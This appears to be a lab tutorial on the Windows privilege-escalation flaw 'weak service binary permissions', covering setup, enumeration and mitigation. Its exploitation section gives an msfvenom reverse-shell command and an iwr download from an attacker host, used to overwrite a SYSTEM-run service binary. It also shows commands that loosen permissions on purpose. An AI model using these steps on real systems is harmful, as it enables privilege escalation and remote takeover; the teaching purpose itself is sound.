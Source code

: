 # Weak Service Binary Permissions

## Table of Contents

- [Weak Service Binary Permissions](#weak-service-binary-permissions)
  - [Table of Contents](#table-of-contents)
  - [Description](#description)
  - [Lab Setup](#lab-setup)
    - [Manual Lab Setup](#manual-lab-setup)
    - [PowerShell Script Lab Setup](#powershell-script-lab-setup)
  - [Enumeration](#enumeration)
    - [Manual Enumeration](#manual-enumeration)
    - [Tool Enumeration](#tool-enumeration)
  - [Exploitation](#exploitation)
  - [Mitigation](#mitigation)
  - [References](#references)

## Description

Weak Service Binary Permissions indicate a vulnerability due to insufficient permissions on service executables. This vulnerability can be exploited by an adversary to modify the service executable, granting unauthorized access or potentially elevating system privileges.

## Lab Setup

### Manual Lab Setup

1) Open a PowerShell with local Administrtor Privileges and use the following command to create a new folder:

```
mkdir "C:\Program Files\CustomSrv2\"
```

2) Download the file [Service2.exe](/Lab-Setup-Binary/Service2.exe) to the 'C:\Program Files\CustomSrv2' directory.

3) Grant modify privileges to BUILTIN\Users for the service folder:

```
icacls "C:\Program Files\CustomSrv2\Service2.exe" /grant BUILTIN\Users:M
```

4) Install the new Service:

```
New-Service -Name "Vulnerable Service 2" -BinaryPathName "C:\Program Files\CustomSrv2\Service2.exe" -DisplayName "Vuln Service 2" -Description "My Custom Vulnerable Service 2" -StartupType Automatic
```

5) Edit new service's permissions to be controlled by BUILTIN\Users:

```
cmd.exe /c 'sc sdset "Vulnerable Service 2" D:(A;;CCLCSWRPWPDTLOCRRC;;;SY)(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;BA)(A;;CCLCSWLOCRRC;;;AU)(A;;CCLCSWRPWPDTLOCRRC;;;PU)(A;;RPWP;;;BU)'
```

Outcome:

![Weak-Service-Binary-Manual-Lab-Setup](/Pictures/Weak-Service-Binary-Manual-Lab-Setup.png)

5) Verify the new service (services.msc):

![Weak-Service-Binary-Manual-Lab-Setup-Verify](/Pictures/Weak-Service-Binary-Manual-Lab-Setup-Verify.png)

6) Manually start the service from the service panel, or reboot the machine due to the service is set to start automatically upon machine boot.

:information_source: If you want to unistall the new service use the following command:

```
Remove-Service -Name "Vulnerable Service 2"
```

### PowerShell Script Lab Setup

To set up the lab with the 'Weak Service Binary Permissions' vulnerability is by using the custom PowerShell script named [WeakServiceBinaryPermissions.ps1](/Lab-Setup-Scripts/WeakServiceBinaryPermissions.ps1).

1) Open a PowerShelll with local Administrator privileges and run the script:

```
.\WeakServiceBinaryPermissions.ps1
```

Outcome:

![Weak-Service-Binary-Script-Lab-Setup](/Pictures/Weak-Service-Binary-Script-Lab-Setup.png)

2) Manually start the service from the service panel, or reboot the machine due to the service is set to start automatically upon machine boot.

:information_source: If you want to unistall the new service use the following command:

```
Remove-Service -Name "Vulnerable Service 2"
```

## Enumeration

### Manual Enumeration

To perform manual enumeration of the `Weak Service Binary Permissions` vulnerability, you can use the following steps:

1) Open a command prompt and use the following command to enumerate the permissions of the service binary:

```
icacls "C:\Program Files\CustomSrv2\Service2.exe"
```

Outcome:

![Weak-Service-Binary-Manual-Enumeration](/Pictures/Weak-Service-Binary-Manual-Enumeration.png)

2) Use the following command to find out the `START_TYPE` and `SERVICE_START_NAME`:

```
sc qc "Vulnerable Service 2"
```

Outcome:

![Weak-Service-Binary-Manual-Enumeration-Part-2](/Pictures/Weak-Service-Binary-Manual-Enumeration-Part-2.png)

3) Use the following command to find out the `STATE` and it's attributes:

```
sc query "Vulnerable Service 2"
```

Outcome:

![Weak-Service-Binary-Manual-Enumeration-Part-3](/Pictures/Weak-Service-Binary-Manual-Enumeration-Part-3.png)

:information_source: Finally, as you can see: 

- The BUILTIN\Users can modify the Service2.exe.
- The service automatically starts after machine boots.
- The Local System runs the service.
- The service is running.

### Tool Enumeration

To run the SharpUp tool and perform an enumeration of the `Weak Service Binary Permissions` vulnerability, you can execute the following command with appropriate arguments:

```
SharpUp.exe audit ModifiableServiceBinaries
```

Outcome:

![Weak-Service-Binary-Tool-Enumeration](/Pictures/Weak-Service-Binary-Tool-Enumeration.png)

## Exploitation

To abuse this vulnerability you should follow these steps:

1) If the service is running and you have permissions to stop it:

```
sc stop "Vulnerable Service 2"
```

Outcome:

![Weak-Service-Binary-Exploitaion-Part-1](/Pictures/Weak-Service-Binary-Exploitaion-Part-1.png)

2) Create with msfvenom a malicious exe file:

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=eth0 LPORT=1234 -f exe > Service2.exe
```

3) Open a listener in your kali machine.

4) Transfer and overwrite the Service2.exe file with the malicious binary:

```
iwr -Uri http://<ip>:<port>/Service2.exe -Outfile C:\Program Files\CustomSrv2\Service2.exe
```

5) Start the service with the following command or reboot the machine:

```
sc start "Vulnerable Service 2"
```

6) Verify the reverse shell on your Kali machine:

![Weak-Service-Binary-Permissions-Reverse-Shell](/Pictures/Weak-Service-Binary-Permissions-Reverse-Shell.png)

## Mitigation

To defend against Weak Service Binary Permissions vulnerabilities, adjust permissions on Service executables initiated through this mechanism. This limits unauthorized access and strengthens security measures:

```
icacls "C:\Program Files\CustomSrv2\Service2.exe" /remove:g BUILTIN\Users:(M)
```

## References

- [Introduction to Windows Services applications Microsoft](https://learn.microsoft.com/en-us/dotnet/framework/windows-services/introduction-to-windows-service-applications)
- [Hot to Create Windows Services Microsoft](https://learn.microsoft.com/en-us/dotnet/framework/windows-services/how-to-create-windows-services)
- [Access Control Overview Microsoft](https://learn.microsoft.com/en-us/windows/security/identity-protection/access-control/access-control)
- [Establishing Windows File and Folder Level Permissions by UWEC](https://www.uwec.edu/kb/article/drives-establishing-windows-file-and-folder-level-permissions/)